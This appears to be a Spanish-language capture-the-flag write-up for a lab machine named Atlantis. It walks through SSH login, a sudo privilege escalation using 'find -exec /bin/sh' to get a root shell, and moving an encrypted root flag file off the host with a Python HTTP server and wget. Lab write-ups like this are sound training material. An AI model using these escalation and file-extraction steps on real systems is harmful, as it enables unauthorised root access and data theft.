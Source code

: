 ```BASH
❯ ssh tridente@10.0.2.26

tridente@Atlantis:~$ ls
find  user.txt
tridente@Atlantis:~$ cat user.txt 
Bien echo ya tienes el tridente
flag --> ************************5914aeba
```

Una ya vez dentro del usuario tridente, comenzamos a ver como escalar privilegios

```
tridente@Atlantis:~$ sudo -l
[sudo] password for tridente: 
Sorry, try again.
[sudo] password for tridente: 
Matching Defaults entries for tridente on Atlantis:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tridente may run the following commands on Atlantis:
    (root) /home/tridente/find
```
Ok, perfecto con find escalamos privilegios de la siguiente manera

```
tridente@Atlantis:~$ sudo /home/tridente/find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
cache.php  root.txt.gpg  server.py
```

Explicando el comando de find:

* ``sudo`` ejecuta el comando como superusuario o root
* ``find .`` Busca archivos y directorios en el directorio actual y en todos los subdirectorios
* ``-exec /bin/sh \;`` Ejecuta un shell para cada archivo o directorio encontrado
* ``-quit`` se detiene después de encontrar la primera coincidencia

Al parecer el GPG es un tipo de cifrado y no podemos leer la flag de root, la vamos a descargar e intentar leerla con jhon

Nos montamos un servidor con python
```
# ls
cache.php  root.txt.gpg  server.py

# python3 -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
10.0.2.4 - - [12/Mar/2023 19:03:11] "GET /root.txt.gpg HTTP/1.1" 200 -
```

Descargamos el archivo ``root.txt.gpg``
```
❯ wget http://10.0.2.26:9001/root.txt.gpg
--2023-03-12 14:50:24--  http://10.0.2.26:9001/root.txt.gpg
Connecting to 10.0.2.26:9001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 168 [application/octet-stream]
Saving to: ‘root.txt.gpg’

root.txt.gpg          100%[=========================>]     168  --.-KB/s    in 0.005s  

2023-03-12 14:50:24 (33.6 KB/s) - ‘root.txt.gpg’ saved [168/168]
```
